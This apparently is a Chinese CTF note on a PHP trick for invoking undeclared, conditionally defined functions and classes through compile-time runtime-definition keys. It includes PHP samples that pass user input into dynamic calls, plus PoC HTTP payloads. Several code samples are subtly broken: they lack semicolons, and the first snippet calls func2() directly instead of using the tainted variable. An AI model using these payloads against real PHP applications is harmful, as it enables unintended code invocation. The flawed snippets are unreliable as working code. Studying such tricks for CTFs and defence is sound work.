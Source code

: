 未声明函数和类的任意调用

## 文章

[知识星球2023年10月PHP函数小挑战 _ 离别歌](F:\LocalCTF\知识星球2023年10月PHP函数小挑战 _ 离别歌.html)

函数和类未声明时也可以直接调用

因为在编译时，会保存临时函数名和类名，所以即使未声明函数和类，也可以直接调用

```php
<?php
if (false) {
    function func2() {
        echo 'func2';
    }
}
$func2 = $_GET["Ki1ro"]
func2();
```

将原函数或类名换成

```bash
'\0' + name + filename + ':' + start_lineno + '$' + rtd_key_counter
```

除了第一个0字符，后面四部分的含义如下：

- **name** 函数名
- **filename** PHP文件绝对路径
- **start_lineno** 函数起始定义行号（以1为第一行）
- **rtd_key_counter** 一个全局访问计数，每次执行会自增1，从0开始

**poc**

```http
/?Ki1ro=\0func2/var/www/html/index.php:3$0
```

类名也可以

```php
<?php

class MyClass_out {
        public function myMethod_out() {
                echo "myMethod_out!"."<br>";
        }
}

if (0) {
    class MyClass_in {
         public static function myMethod_in() {
                 echo "myMethod_in!"."<br>";
                }
        }
}

$className_out = "MyClass_out";
$methodName_out = "myMethod_out";

$className_in = $_POST["Ki1ro"]
$methodName_in = "myMethod_in";

$obj_out = new $className_out();
$obj_out->$methodName_out();

$className_in::$methodName_in();
?>
```

poc

```http
Ki1ro="\0myclass_in/var/www/html/index.php:10$0"
```

## 适用版本

未声明函数的调用只适用于 php8.1 之前的php版本

因为php8.1后，将编译时的临时函数已经删除了

但未声明类的调用依然可用

wei

